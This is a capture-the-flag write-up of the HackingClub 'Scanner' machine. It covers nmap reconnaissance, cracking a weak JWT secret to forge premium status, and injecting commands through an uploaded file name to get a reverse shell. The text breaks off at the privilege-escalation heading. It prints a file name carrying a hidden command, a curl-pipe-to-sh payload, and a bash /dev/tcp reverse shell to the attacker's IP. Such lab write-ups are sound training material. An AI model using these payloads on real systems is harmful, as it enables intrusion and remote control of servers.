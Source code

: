 ```yaml
---
layout: post
title:  "Scanner"
date:   2025-03-22 18:48:00 -0300
tags: ctf hackingclub
level: medium
description: a machine about JWT Weak secret, Command injection & Use-After-Free exploitation.
---
```


# introduction

This article presents the successful exploitation of a command injection through file name parsing into semgrep scan, bypassing subscription filters via JWT token modification, and performing reverse engineering on a binary file to detect and exploit UAF (Use After Free) for privilege escalation.

The exploitation was carried out on a CTF machine from the [hackingclub](https://hackingclub.com) platform.

# reconnaissance

To begin our exploitation, we must first recognize the environment we are attacking. To do so, we start by running nmap on the machine's IP and checking which ports are open.

{% highlight bash %}
> nmap -sV 172.16.6.67
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-22 18:58 -03
Nmap scan report for 172.16.6.67
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.28 seconds
{% endhighlight %}

We were able to identify that ports 22 and 80 are open, so we have a web application to analyze.

Upon accessing the web application for the first time, we detected that it is a JavaScript file scanner. It is also possible to identify the presence of buttons for login and user registration.

![first_web_access]({{ "/assets/image/hacking_club_scanner/app.png" | relative_url }})

When attempting to scan a file, we are redirected to a subscription screen.

![subscription_screen]({{ "/assets/image/hacking_club_scanner/premium.png" | relative_url }})

In this way, let's proceed with the registration and login flow to understand how we can obtain a premium status on the platform.
 
I registered on the platform with the email "teste@teste.com" and the password "123456". Upon logging in, we received a JWT token as a response:

![login]({{ "/assets/image/hacking_club_scanner/login.png" | relative_url }})

# forging premium status

Let's analyze this token in a JWT debugger to check if there is any useful information being managed through it.

![jwt-debug]({{ "/assets/image/hacking_club_scanner/jwt-premium.png" | relative_url }})

BINGO! We managed to detect that the platform's subscription status is being managed through a flag in the JWT. Now, how can we alter it without knowing the token's secret? As a standard procedure, we attempt to perform a brute-force attack on the JWT using a known wordlist. If the secret is weak, we can modify the payload value and sign it again, keeping the token valid.

Running the jwt-cracker using the wordlist seclists/Passwords/darkweb2017-top10000.txt, we were able to identify the secret:

{% highlight bash %}
> jwt-cracker <token> -d /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt
SECRET FOUND: 1a2b3c4d
Time taken (sec): 0.042
Total attempts: 9999

{% endhighlight %}

Nice, now it's easy for us to sign up for the platform without paying anything. On jwt.io, we just need to change the value of the "premium" flag to "true" and insert the identified secret.

![forge-premium-subscription]({{ "/assets/image/hacking_club_scanner/forged-token.png" | relative_url }})

We’re premium! :D

# scanning our first file

After managing to sign up for the platform by changing the value of the "premium" flag in the payload of our JWT token, we performed a scan on a random JS file to understand a bit of the scan flow. When we send a file for scanning, we receive the following scan output from the tool "semgrep":

![scan-response]({{ "/assets/image/hacking_club_scanner/scan-response.png" | relative_url }})

In a very basic explanation, semgrep is a SAST (Static Application Security Testing) tool that can be used via the command line. To scan a file, you just need to run the following command:

{% highlight bash %}
> semgrep scan path/to/file
{% endhighlight %}

In this way, semgrep will scan the specified file(s) and display the output that we received in the response.
We can imagine that the application we are attacking probably does something like:

{% highlight javascript %}
app.post('/api/v1/upload', (req, res) => {
    // SAVE FILE BEFORE SCAN
    res.send(exec('semgrep scan $(req.body.filename)', (err, stdout, stderr) => {
      return stdout;
    }));
});
{% endhighlight %}

If the application really does something like we imagined, then we can attempt to perform a command injection during the scanning process.

It's important to make it clear that it is not possible to send any filename that doesn't end with '.js'. Thus, we noticed that the application only validates if the last 3 characters of the filename are '.js'.

In this way, we just need to craft our payload as: filename$(cmdhere).js

To test if our payload is working, I like to receive a request from the server on my machine. That way, I can confirm that the injection was truly successful.

In that way, our payload would be this: filename$(curl myip).js

Setting up a server in Python to receive the request:

![initserver]({{ "/assets/image/hacking_club_scanner/initserver.png" | relative_url }})

When executing the command, we received the request from the server:

![recvd_connection]({{ "/assets/image/hacking_club_scanner/recvd_connection.png" | relative_url }})

Done. Command injection validated! Now we need to gain access to the server through a reverse shell. To do this, I created an index.html file containing a bash reverse shell and hosted it on the Python server.

Content of index.html:
{% highlight javascript %}
/bin/bash -c 'sh -i >& /dev/tcp/10.0.20.223/4444 0>&1'
{% endhighlight %}

This way, when the request is made to my server, we can execute the content of the index.html, which is my reverse shell. To achieve this, we need to send the following payload in the CMD injection: filename$(curl ip\|sh).js

After sending the request, we achieve the reverse shell:

![recv_shell]({{ "/assets/image/hacking_club_scanner/recv_shell.png" | relative_url }})

Therefore, we just need to investigate the server a little at first to get the first flag on the path /home/svc_web/user.txt.

![first_flag]({{ "/assets/image/hacking_club_scanner/first_flag.png" | relative_url }})

# privilege escalation